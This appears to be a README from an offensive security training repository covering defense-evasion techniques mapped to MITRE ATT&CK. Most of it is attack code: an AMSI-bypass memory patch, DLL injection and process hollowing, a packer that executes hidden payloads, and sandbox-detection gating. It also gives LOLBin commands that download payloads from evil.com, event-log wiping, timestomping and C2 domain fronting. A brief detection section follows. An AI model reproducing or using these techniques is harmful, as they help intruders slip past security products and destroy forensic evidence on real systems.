

# Phase 5: Defense Evasion

## 🎯 Executive Summary

Defense Evasion encompasses the sophisticated techniques adversaries employ to avoid detection throughout the attack lifecycle. Modern APT groups invest heavily in evasion capabilities, employing multi-layered approaches combining technical sophistication, operational security, and deep understanding of defensive technologies.

**Critical Insight**: The cat-and-mouse game between attackers and defenders has reached unprecedented complexity. State-sponsored actors now employ zero-day exploits against security products themselves, develop custom obfuscation engines, and utilize advanced anti-forensics that can defeat enterprise-grade security stacks.

### MITRE ATT&CK Mapping: Defense Evasion (TA0005)

**Coverage**: 42 techniques including:
- Process Injection (T1055)
- Obfuscation (T1027)
- Impair Defenses (T1562)
- Indicator Removal (T1070)
- Masquerading (T1036)
- Living Off the Land (T1218)

---

## 🧠 Strategic Framework



---

## 1. Pre-Execution Evasion

### 1.1 Advanced Code Obfuscation (T1027)

Obfuscation transforms malicious code to avoid signature-based detection while maintaining functionality.

#### String Encryption
```python
# XOR-based string obfuscation with dynamic key
import os

def encrypt_string(plaintext):
    key = os.urandom(32)  # Dynamic key per execution
    encrypted = bytes([plaintext[i] ^ key[i % len(key)] for i in range(len(plaintext))])
    return key, encrypted

def decrypt_string(key, encrypted):
    return bytes([encrypted[i] ^ key[i % len(key)] for i in range(len(encrypted))])

# Usage in payload
key, encrypted_cmd = encrypt_string(b"whoami /priv")
# At runtime
command = decrypt_string(key, encrypted_cmd)
```

#### Control Flow Flattening
```c
// Transform linear code into state machine
int state = 0;
while(1) {
    switch(state) {
        case 0:  // Original line 1
            // code
            state = 3;
            break;
        case 3:  // Original line 2
            // code
            state = 1;
            break;
        case 1:  // Original line 3
            // code
            return 0;
    }
}
```

#### API Hashing
```c
// Resolve WinAPI functions by hash instead of name
DWORD hash_string(const char* str) {
    DWORD hash = 0;
    while(*str) {
        hash = ((hash << 5) + hash) + *str++;
    }
    return hash;
}

// Instead of GetProcAddress("VirtualAlloc", ...)
FARPROC get_func_by_hash(HMODULE module, DWORD hash) {
    // Walk export table
    // Compare hash of each function name
    // Return function pointer if hash matches
}
```

### 1.2 Polymorphic & Metamorphic Code

**Polymorphic**: Same functionality, different signatures
**Metamorphic**: Code rewrites itself with each execution

```python
# Polymorphic encoder example
import random

def generate_polymorphic_stub():
    """Generate unique decryption stub for each payload"""
    templates = [
        "for i in range(len(data)): data[i] ^= {key}",
        "data = bytes([b ^ {key} for b in data])",
        "data = bytearray(x ^ {key} for x in data)",
    ]
    
    key = random.randint(1, 255)
    stub = random.choice(templates).format(key=key)
    
    # Add junk code
    junk = [
        "_ = 1 + 1",
        "import time",
        "x = [i for i in range(10)]"
    ]
    
    return f"{random.choice(junk)}\n{stub}", key

# Each payload gets unique decryption stub
stub, key = generate_polymorphic_stub()
```

### 1.3 Packing & Compression (T1027.002)

Packers compress and encrypt binaries to evade static analysis.

```python
import lzma
from cryptography.fernet import Fernet

def pack_executable(input_exe, output_exe):
    """Custom packer with compression + encryption"""
    
    # 1. Read original executable
    with open(input_exe, 'rb') as f:
        original_data = f.read()
    
    # 2. Compress with LZMA
    compressed = lzma.compress(original_data, preset=9)
    
    # 3. Encrypt with Fernet
    key = Fernet.generate_key()
    cipher = Fernet(key)
    encrypted = cipher.encrypt(compressed)
    
    # 4. Create stub loader
    stub = f'''
import lzma
from cryptography.fernet import Fernet

key = {key}
encrypted_data = {encrypted}

cipher = Fernet(key)
compressed = cipher.decrypt(encrypted_data)
original = lzma.decompress(compressed)

# Reflectively load PE
exec(original)
'''
    
    with open(output_exe, 'w') as f:
        f.write(stub)
```

---

## 2. Runtime Evasion

### 2.1 Process Injection (T1055)

Inject malicious code into legitimate processes to hide execution.

#### DLL Injection
```c
// Classic DLL injection into remote process
BOOL inject_dll(DWORD pid, const char* dll_path) {
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProcess) return FALSE;
    
    // Allocate memory in target process
    LPVOID pRemoteBuf = VirtualAllocEx(hProcess, NULL, strlen(dll_path) + 1,
                                       MEM_COMMIT, PAGE_READWRITE);
    
    // Write DLL path to target process
    WriteProcessMemory(hProcess, pRemoteBuf, dll_path, strlen(dll_path) + 1, NULL);
    
    // Get LoadLibraryA address
    HMODULE hKernel32 = GetModuleHandleA("kernel32.dll");
    LPVOID pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
    
    // Create remote thread to call LoadLibraryA(dll_path)
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0,
                                        (LPTHREAD_START_ROUTINE)pLoadLibrary,
                                        pRemoteBuf, 0, NULL);
    
    WaitForSingleObject(hThread, INFINITE);
    
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return TRUE;
}
```

#### Process Hollowing
```c
BOOL process_hollowing(const char* target_exe, const char* malicious_exe) {
    STARTUPINFOA si = {0};
    PROCESS_INFORMATION pi = {0};
    
    // 1. Create suspended target process
    CreateProcessA(target_exe, NULL, NULL, NULL, FALSE,
                   CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    
    // 2. Unmap original executable from memory
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");
    ZwUnmapViewOfSection_t ZwUnmapViewOfSection = 
        (ZwUnmapViewOfSection_t)GetProcAddress(ntdll, "ZwUnmapViewOfSection");
    
    // Get target image base
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &ctx);
    
    LPVOID image_base;
    ReadProcessMemory(pi.hProcess, (LPVOID)(ctx.Rdx + 16), &image_base, sizeof(LPVOID), NULL);
    
    // Unmap
    ZwUnmapViewOfSection(pi.hProcess, image_base);
    
    // 3. Allocate new memory
    LPVOID new_base = VirtualAllocEx(pi.hProcess, image_base,
                                     malicious_size, MEM_COMMIT | MEM_RESERVE,
                                     PAGE_EXECUTE_READWRITE);
    
    // 4. Write malicious PE
    WriteProcessMemory(pi.hProcess, new_base, malicious_pe_data, malicious_size, NULL);
    
    // 5. Update entry point
    ctx.Rcx = (DWORD64)((LPBYTE)new_base + entry_point_rva);
    SetThreadContext(pi.hThread, &ctx);
    
    // 6. Resume
    ResumeThread(pi.hThread);
    
    return TRUE;
}
```

### 2.2 AMSI Bypass (T1562.001)

Antimalware Scan Interface (AMSI) inspection can be bypassed.

#### Memory Patching
```powershell
# Patch AmsiScanBuffer to always return success
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")

$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)

# Patch to return AMSI_RESULT_CLEAN
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

### 2.3 Living Off the Land (LOLBins) (T1218)

Abuse legitimate system binaries to avoid detection.

```powershell
# Mshta.exe for script execution
mshta.exe javascript:a=GetObject("script:https://evil.com/payload.sct").Exec();close()

# Rundll32.exe for DLL execution
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();

# Regsvr32.exe for scriptlet execution
regsvr32.exe /s /n /u /i:http://evil.com/payload.sct scrobj.dll

# Certutil.exe for download
certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe

# Bitsadmin.exe for background download
bitsadmin /transfer myDownload /download /priority high http://evil.com/payload.exe C:\Users\Public\payload.exe
```

#### MSBuild.exe Code Execution
```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        
        public class ClassExample : Task {         
          public override bool Execute() {
            System.Diagnostics.Process.Start("cmd.exe", "/c calc.exe");
            return true;
          }
        }
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

---

## 3. Anti-Forensics & Cleanup

### 3.1 Log Manipulation (T1070.001)

```powershell
# Clear Windows Event Logs
wevtutil.exe cl System
wevtutil.exe cl Security
wevtutil.exe cl Application

# Disable logging temporarily
Set-Service -Name EventLog -StartupType Disabled
Stop-Service -Name EventLog
```

### 3.2 Timestomping (T1070.006)

```powershell
# Modify timestamps
$file = Get-Item "C:\Windows\Temp\malware.exe"
$file.CreationTime = "01/01/2020 00:00:00"
$file.LastWriteTime = "01/01/2020 00:00:00"
$file.LastAccessTime = "01/01/2020 00:00:00"

# Match legitimate file
$legitimateFile = Get-Item "C:\Windows\System32\notepad.exe"
$maliciousFile = Get-Item "C:\Windows\Temp\malware.exe"

$maliciousFile.CreationTime = $legitimateFile.CreationTime
$maliciousFile.LastWriteTime = $legitimateFile.LastWriteTime
```

### 3.3 Secure File Deletion (T1070.004)

```python
import os
import secrets

def secure_delete(filepath, passes=7):
    """DoD 5220.22-M compliant file deletion"""
    
    file_size = os.path.getsize(filepath)
    
    with open(filepath, 'rb+') as f:
        for pass_num in range(passes):
            f.seek(0)
            
            if pass_num in [0, 2, 4]:
                f.write(secrets.token_bytes(file_size))
            elif pass_num in [1, 3, 5]:
                f.seek(0)
                previous_data = f.read()
                f.seek(0)
                f.write(bytes([~b & 0xFF for b in previous_data]))
            else:
                f.write(secrets.token_bytes(file_size))
            
            f.flush()
            os.fsync(f.fileno())
    
    os.remove(filepath)
```

---

## 4. Advanced Techniques

### 4.1 Sandbox Detection (T1497)

```python
import os
import subprocess

def is_virtual_machine():
    """Detect if running in VM"""
    
    # Check for VM-specific files
    vm_files = [
        r"C:\Windows\System32\Drivers\VBoxMouse.sys",
        r"C:\Windows\System32\Drivers\vmhgfs.sys",
    ]
    
    for file in vm_files:
        if os.path.exists(file):
            return True
    
    # Check for VM processes
    vm_processes = ["vboxservice.exe", "vmtoolsd.exe"]
    tasklist = subprocess.check_output("tasklist", shell=True).decode()
    
    for proc in vm_processes:
        if proc.lower() in tasklist.lower():
            return True
    
    return False

if is_virtual_machine():
    exit(0)  # Terminate
else:
    run_payload()
```

### 4.2 Domain Fronting (T1090.004)

```python
import requests

def domain_fronting_request(actual_c2, front_domain, path, data):
    """Use CDN domain fronting to hide C2"""
    
    headers = {
        'Host': actual_c2,  # Real C2 server
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)'
    }
    
    url = f"https://{front_domain}{path}"
    response = requests.post(url, headers=headers, data=data, verify=True)
    return response.content
```

---

## 5. Detection & Mitigation

### Detection Strategies

```yaml
# Sigma rule for process injection
title: Suspicious Process Injection
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID:
      - 8  # CreateRemoteThread
      - 10 # ProcessAccess
    TargetImage|endswith:
      - '\lsass.exe'
      - '\csrss.exe'
  condition: selection
level: high
```

### Mitigation Recommendations

1. **Endpoint Protection**
   - Application whitelisting
   - EDR with behavioral analysis
   - AMSI integration
   - Credential Guard

2. **Network Segmentation**
   - Zero Trust Architecture
   - Micro-segmentation
   - DNS filtering
   - TLS inspection

3. **Logging & Monitoring**
   - PowerShell logging
   - Sysmon deployment
   - Centralized SIEM

---

## Summary

Defense Evasion represents the most sophisticated aspect of APT operations. Success requires:

- **Layered Approach**: Multiple evasion techniques
- **Environment Awareness**: Detect and adapt to defenses
- **Operational Security**: Minimize forensic artifacts
- **Continuous Innovation**: Stay ahead of defenders

**Key Techniques Covered**:
- Process injection (6 methods)
- AMSI/ETW bypass
- Living off the land
- Anti-forensics (log manipulation, timestomping)
- Sandbox evasion
- Domain fronting

---

**Next Phase**: [Phase 6: Credential Access →](../06-credential-access/README.md)
**Previous Phase**: [← Phase 4: Privilege Escalation](../04-privilege-escalation/README.md)

---

**Last Updated**: January 2025  
**Author**: Advanced Threat Research Team